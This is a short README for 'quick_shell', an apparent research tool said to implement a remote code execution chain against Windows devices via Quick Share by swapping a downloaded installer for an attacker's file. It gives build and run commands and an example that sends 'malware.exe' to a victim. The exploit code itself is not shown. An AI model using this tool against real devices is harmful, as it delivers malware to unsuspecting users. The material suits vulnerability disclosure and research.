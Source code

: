# quick_shell

Implements the full RCE chain, replacing an installer executable downloaded by a victim’s Windows device through Quick Share.

## Build
Run:
```cmd
bazel build //quick_shell_rce_tool:quick_shell
```
The executable will be created in `./bazel-bin/quick_shell_rce_tool`

## Usage
Turn on the hotspot on the Windows attacker computer, and run:
```cmd
quick_shell.exe <AP_ssid> <AP_pass> <AP_ip> <AP_freq> <file_to_send_path> <popular_files_yaml>
```

### Parameters:

* `AP_ssid`: the ssid of the access point.
* `AP_pass`: the password required to connect to the access point.
* `AP_ip`: the ip address of the access point.
* `AP_freq`: the frequency of the access point in Mhz (can be retrieved using tools like smartphones' wifi analyzers)
* `file_to_send_path`: path to the file that will be sent to the victim.
* `popular_files_yaml`: path to a YAML file that maps between domain paths and the executables that  can be downloaded from them. Follow the same format as present in [popular_files.yaml](/quick_shell_rce_tool/popular_files.yaml)

### Example of running quick_shell:
```
quick_shell.exe testing_ap my_password 192.168.137.1 2412 malware.exe ./popular_files.yaml
```

